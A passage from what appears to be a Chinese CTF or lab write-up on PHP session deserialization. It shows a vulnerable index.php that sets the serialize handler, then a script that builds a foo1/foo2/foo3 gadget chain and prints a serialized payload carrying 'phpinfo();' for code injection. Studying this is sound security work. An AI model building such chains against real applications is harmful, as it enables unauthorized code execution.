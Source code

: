 ```php
  echo "<br>这是foo3的析构函数<br>";
 }
}

?>
```



**index.php**

```php
<?php

ini_set('session.serialize_handler', 'php');

require("./class.php");

session_start();

$obj = new foo1();

$obj->varr = "phpinfo.php";

?>
```

先构造链子

```php
<?php
//require_once "class.php";
class foo1{
    public $varr;
    function __construct($varr){
        $this->varr = $varr;
    }
}

class foo2{
    public $varr;
    public $obj;
    function __construct($obj)
    {
        $this->varr = '';
        $this->obj = $obj;
    }
}

class foo3{
    public $varr;
    function __construct($varr)
    {
        $this->varr = $varr;
    }
}

$a = new foo1(new foo2(new foo3("phpinfo();")));
echo serialize($a),"\n";
//O:4:"foo1":1:{s:4:"varr";O:4:"foo2":2:{s:4:"varr";s:0:"";s:3:"obj";O:4:"foo3":1:{s:4:"varr";s:10:"phpinfo();";}}}
```
